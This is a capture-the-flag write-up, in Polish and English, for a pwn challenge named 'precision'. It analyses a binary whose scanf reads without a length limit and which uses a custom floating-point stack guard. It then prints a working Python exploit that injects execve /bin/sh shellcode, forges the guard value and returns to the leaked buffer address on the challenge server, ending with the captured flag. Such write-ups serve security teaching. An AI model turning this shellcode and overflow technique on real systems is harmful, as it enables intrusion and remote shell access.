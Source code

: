 ## precision (pwn, 100p, 272 solves)

### PL
[ENG](#eng-version)

> nc 54.173.98.115 1259  
> [precision_a8f6f0590c177948fe06c76a1831e650](precision)

Pobieramy udostępnioną binarkę i na początek sprawdzamy jakie utrudnienia przygotowali nam autorzy.

```
# checksec.sh --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precision
```
Widać, że nieduże ;).

Krótka analiza w IDA pokazuje nam, że program:
1. Realizuje własną wariację stack guard (dla małego utrudnienia jako liczbę zmiennoprzecinkową).
2. Wypisuje adres bufora oraz za pomocą `scanf` pobiera do niego od nas dane (za pomocą specyfikatora `%s` nieograniczającego wielkość).
3. Sprawdza wartość cookie/canary, wypisuje nasz bufor i wychodzi za pomocą zwykłego `ret`.

Mamy więc do czynienia z prostym buffer overflow z umieszczeniem shellcode'u na stosie (brak NX oraz podany adres bufora).

```python
import socket

s = socket.socket()
s.connect(('54.173.98.115', 1259))

buf_addr = s.recv(17)[8:16]

s.send('31c0b03001c430c050682f2f7368682f62696e89e389c1b0b0c0e804cd80c0e803cd80'.decode('hex').ljust(128, 'a')) # shellcode: execve /bin/sh
s.send('a5315a4755155040'.decode('hex')) # stack guard
s.send('aaaaaaaaaaaa') # padding
s.send(buf_addr.decode('hex')[::-1]) # ret: buffer address
s.send('\n')
print (s.recv(9999))
s.send('cat flag\n')
print (s.recv(9999))
s.close()
```

Oraz wynik:

`flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}`

### ENG version

> nc 54.173.98.115 1259  
> [precision_a8f6f0590c177948fe06c76a1831e650](precision)

We download the binary and start with checking what kind of obstacles were prepared:

```
# checksec.sh --file precision
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precision
```
As can be seen, not much ;).

Short analysis in IDA shows us that the binary:
1. Implements a custom stack guard (to make it a little bit harder, as s floating point number).
2. Prints the buffer address and uses `scanf` to read input data (with `%s` without limiting the size of input)
3. Checks the value of canary, prints the buffer and exits with `ret`.

Therefore, we are dealing with a simplem buffer overflow with placing shellcode on the stack (no NX and explicitly printed out buffer address).
The exploit:

```python
import socket

s = socket.socket()
s.connect(('54.173.98.115', 1259))

buf_addr = s.recv(17)[8:16]

s.send('31c0b03001c430c050682f2f7368682f62696e89e389c1b0b0c0e804cd80c0e803cd80'.decode('hex').ljust(128, 'a')) # shellcode: execve /bin/sh
s.send('a5315a4755155040'.decode('hex')) # stack guard
s.send('aaaaaaaaaaaa') # padding
s.send(buf_addr.decode('hex')[::-1]) # ret: buffer address
s.send('\n')
print (s.recv(9999))
s.send('cat flag\n')
print (s.recv(9999))
s.close()
```

And the result:

`flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}`
